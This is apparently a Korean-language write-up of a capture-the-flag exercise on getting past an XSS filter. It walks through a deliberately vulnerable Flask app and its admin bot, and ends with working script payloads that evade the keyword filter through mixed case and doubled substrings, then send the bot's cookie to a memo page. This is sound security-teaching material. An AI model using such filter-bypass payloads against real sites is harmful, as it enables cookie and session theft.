

# ( Web | XSS Filtering Bypass )

### 문제 설명

Exercise: XSS Filtering Bypass에서 실습하는 문제입니다.

[문제 소스 코드](app.py)

문제 소스 코드

# Writeup

---

## Source Code Reading

- **1. 초기 설정**
    
    ```python
    #!/usr/bin/python3
    from flask import Flask, request, render_template
    from selenium import webdriver
    from selenium.webdriver.chrome.service import Service
    import urllib
    import os
    
    app = Flask(__name__)
    app.secret_key = os.urandom(32)
    
    try:
        FLAG = open("./flag.txt", "r").read()
    except:
        FLAG = "[**FLAG**]"
    ```
    
    - FLAG 로드: 서버가 실행될 때 `./flag.txt` 파일을 읽어와 `FLAG` 변수에 저장합니다. 파일을 읽지 못할 경우 기본값(`[**FLAG**]`)을 사용
    - 시크릿 키: Flask 세션 등에서 사용할 암호화 키(`secret_key`)를 무작위로 32바이트 생성하여 설정
- **2. 자동화 봇 및 방문 로직 (`read_url` , `check_xss` )**
    
    ```python
    def read_url(url, cookie={"name": "name", "value": "value"}):
        cookie.update({"domain": "127.0.0.1"})
        try:
            service = Service(executable_path="/chromedriver")
            options = webdriver.ChromeOptions()
            for _ in [
                "headless",
                "window-size=1920x1080",
                "disable-gpu",
                "no-sandbox",
                "disable-dev-shm-usage",
            ]:
                options.add_argument(_)
            driver = webdriver.Chrome(service=service, options=options)
            driver.implicitly_wait(3)
            driver.set_page_load_timeout(3)
            driver.get("http://127.0.0.1:8000/")
            driver.add_cookie(cookie)
            driver.get(url)
        except Exception as e:
            driver.quit()
            # return str(e)
            return False
        driver.quit()
        return True
    ```
    
    - Selenium 라이브러리를 사용해 백그라운드에서 화면 없이(Headless) 크롬 브라우저를 실행
    - 전달받은 `cookie` 데이터에 도메인을 `127.0.0.1`로 고정한 뒤, 먼저 로컬 서버 메인(`http://127.0.0.1:8000/`)에 접속
    - 브라우저에 해당 쿠키를 추가한 후, 최종적으로 인자로 받은 `url` 주소로 이동
    
    ```python
    def check_xss(param, cookie={"name": "name", "value": "value"}):
        url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
        return read_url(url, cookie)
    ```
    
    - 사용자로부터 받은 `param` 값을 URL 인코딩(`urllib.parse.quote`)
    - 인코딩된 값을 `http://127.0.0.1:8000/vuln?param=` 주소 뒤에 붙여 완전한 URL을 만든 뒤, `read_url` 함수에 쿠키와 함께 전달하여 봇이 방문하도록 함
    
- **3. 문자열 필터링 함수 (`xss_filter`)**
    
    ```python
    def xss_filter(text):
        _filter = ["script", "on", "javascript:"]
        for f in _filter:
            if f in text.lower():
                text = text.replace(f, "")
        return text
    ```
    
    - 기능: 전달받은 문자열(`text`) 내에 특정 단어가 포함되어 있는지 확인하고 지우는 역할
    - 동작 방식: 대상 단어는 `script`, `on`, `javascript:` . 입력된 문자열을 `.lower()`를 통해 소문자로 바꾼 상태에서 해당 단어들이 존재하는지 검사, 발견될 경우 원본 문자열에서 해당 단어를 공백(`""`)으로 치환(삭제)하여 반환
- **4. 메인 페이지 ( `/` ,`index`)**
    
    ```python
    @app.route("/")
    def index():
        return render_template("index.html")
    ```
    
    기능: 사용자가 사이트의 기본 경로(`http://127.0.0.1:8000/`)로 접속 시, `index.html` 템플릿 화면을 렌더링
    
- **5. 파라미터 출력 페이지 (`/vuln`)**
    
    ```python
    @app.route("/vuln")
    def vuln():
        param = request.args.get("param", "")
        param = xss_filter(param)
        return param
    ```
    
    - 기능: URL의 쿼리 스트링으로 전달된 `param` 값을 화면에 그대로 출력해 주는 페이지
    - 동작 방식: `request.args.get("param")`으로 값 받음 → `xss_filter` 함수를 통과시켜 특정 단어들 필터링 → 그 결과값을 브라우저 화면에 텍스트나 HTML 형태로 반환
- **6. 봇 방문 요청 페이지 (`/flag`)**
    
    ```python
    @app.route("/flag", methods=["GET", "POST"])
    def flag():
        if request.method == "GET":
            return render_template("flag.html")
        elif request.method == "POST":
            param = request.form.get("param")
            if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
                return '<script>alert("wrong??");history.go(-1);</script>'
    
            return '<script>alert("good");history.go(-1);</script>'
    ```
    
    - GET 요청 (`if request.method == "GET"`): 사용자가 봇에게 전달할 값을 입력할 수 있는 폼 화면(`flag.html`) 보여줌
    - POST 요청 (`elif request.method == "POST"`): 폼을 통해 제출된 `param` 값을 가져옴
        - 서버가 알고 있는 실제 `FLAG` 값을 쿠키(`{"name": "flag", "value": FLAG.strip()}`)로 세팅하여 `check_xss` 함수를 호출
        - 관리자 봇의 브라우저에 FLAG 쿠키를 담은 채로 사용자가 입력한 값이 포함된 `/vuln` 페이지를 방문하게 함
        - 방문 과정에서 에러가 나면 "wrong??" 알림을, 정상적으로 페이지를 열었다면 "good" 알림을 띄움
- **7. 텍스트 메모장 (`/memo`)**
    
    ```python
    @app.route("/memo")
    def memo():
        global memo_text
        text = request.args.get("memo", "")
        memo_text += text + "\n"
        return render_template("memo.html", memo=memo_text)
    ```
    
    - 기능: 누구나 텍스트를 남기고 확인할 수 있는 전역 메모장
    - `memo` 파라미터로 값을 전달받으면, 서버가 구동되는 동안 유지되는 전역 변수 `memo_text`에 해당 텍스트와 줄바꿈(`\n`)을 계속해서 누적(append)
    → `memo.html`을 통해 지금까지 누적된 모든 텍스트 출력

## Attack Scenario



- `/vuln` 페이지로 대소문자 테스트 → 대문자 필터링 X
- 필터링 문자 공백 치환 → `scronipt` 형태로 사용 가능


```html
<Script> location.href = "/memo?memo=" + document.cookie; </Script>
```

- 위와 같은 페이로드 사용 → but, 메모에는 cookie가 출력 되지 않음
- 페이로드에 필터링 되는 단어 한 번 더 검토
⇒ location에 on이 들어가는 거 발견 페이로드 수정


```html
<Script> locatioonn.href = "/memo?memo=" + document.cookie; </Script>
```

- location에 on을 추가하여 공백 치환 → 정상 실행